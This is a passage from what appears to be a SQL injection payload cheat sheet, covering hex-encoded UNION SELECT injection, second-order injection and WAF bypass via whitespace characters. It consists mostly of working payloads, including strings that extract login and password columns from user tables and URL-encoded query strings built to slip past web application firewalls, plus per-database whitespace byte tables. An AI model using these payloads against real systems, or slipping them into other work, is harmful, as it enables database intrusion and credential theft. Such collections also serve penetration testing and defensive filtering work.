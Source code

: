 `0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061` is the hex encoded of `-1' union select login,password from users-- a`.

```sql
-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a
```


## Second Order SQL Injection

Second Order SQL Injection is a subtype of SQL injection where the malicious SQL payload is primarily stored in the application's database and later executed by a different functionality of the same application.

```py
username="anything' UNION SELECT Username, Password FROM Users;--"
password="P@ssw0rd"
```

Since you are inserting your payload in the database for a later use, any other type of injections can be used UNION, ERROR, BLIND, STACKED, etc.


## Generic WAF Bypass

### White Spaces

Bypass using whitespace alternatives.

| Bypass                   | Technique              |
| ------------------------ | ---------------------- |
| `?id=1%09and%091=1%09--` | Whitespace alternative |
| `?id=1%0Aand%0A1=1%0A--` | Whitespace alternative |
| `?id=1%0Band%0B1=1%0B--` | Whitespace alternative |
| `?id=1%0Cand%0C1=1%0C--` | Whitespace alternative |
| `?id=1%0Dand%0D1=1%0D--` | Whitespace alternative |
| `?id=1%A0and%A01=1%A0--` | Whitespace alternative |
| `?id=1%A0and%A01=1%A0--` | Whitespace alternative |

| DBMS       | ASCII characters in hexadecimal |
| ---------- | ------------------------------- |
| SQLite3    | 0A, 0D, 0C, 09, 20 |
| MySQL	5    | 09, 0A, 0B, 0C, 0D, A0, 20 |
| MySQL	3	   | 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20, 7F, 80, 81, 88, 8D, 8F, 90, 98, 9D, A0 |
| PostgreSQL | 0A, 0D, 0C, 09, 20 |
| Oracle 11g | 00, 0A, 0D, 0C, 09, 20 |
| MSSQL      | 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20 |
